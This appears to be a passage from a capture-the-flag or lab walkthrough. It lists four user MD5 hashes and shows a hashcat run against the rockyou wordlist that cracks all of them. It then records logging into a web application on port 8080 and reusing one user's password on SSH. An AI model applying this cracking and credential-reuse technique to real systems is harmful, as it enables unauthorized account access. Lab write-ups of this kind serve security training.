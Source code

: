 
## HASHES

```txt
| claire-r | 2ac9cb7dc02b3c0083eb70898e549b63 |   360 |
| chris-r  | 0d107d09f5bbe40cade3de5c71e9e9b7 |   420 |
| jill-v   | d5c0607301ad5d5c1528962a83992ac8 |   564 |
| barry-b  | 4a04890400b5d7bac101baace5d7e994 | 47893 |
```

These are md5 hashes.

## CRACK

```bash
 hashcat -m 0 hashes ../../Tools/rockyou.txt  

2ac9cb7dc02b3c0083eb70898e549b63:Password1
0d107d09f5bbe40cade3de5c71e9e9b7:letmein
d5c0607301ad5d5c1528962a83992ac8:sunshine1
4a04890400b5d7bac101baace5d7e994:sandwich
```

And we are inside the application in [[PORT 8080]]

Turns out we can also use claire-r in [[PORT 22]]